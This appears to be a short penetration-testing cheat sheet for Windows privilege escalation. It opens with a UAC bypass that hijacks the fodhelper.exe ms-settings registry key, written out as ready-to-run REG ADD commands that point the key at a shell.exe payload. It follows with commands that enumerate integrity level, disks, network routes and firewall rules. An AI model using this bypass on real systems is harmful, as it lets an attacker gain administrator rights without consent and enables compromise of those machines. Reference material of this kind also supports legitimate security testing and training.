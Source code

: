 ## Bypass UAC registry hijacking 

Check Mandatory Level

``` bash
whoami /groups
```

Run cmd.exe as Administrator to get High Mandatory Level

``` bash
powershell.exe Start-Process cmd.exe -Verb runAs
```

`C:\Windows\System32\fodhelper.exe`

``` bash
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
```

``` bash
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
```

``` bash
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "C:\Users\windows_10_1903_x64\Desktop\shell.exe" /f
```


## Unmounted Disks

``` bash
mountvol
```

## Networking Enumeration

``` bash
ipconfig /all
```

``` bash
route print
```

## Firewall Status and Rules

``` bash
netsh advfirewall show currentprofile
```

``` bash
netsh advfirewall firewall show rule name=all
```

## Enumeration Tools
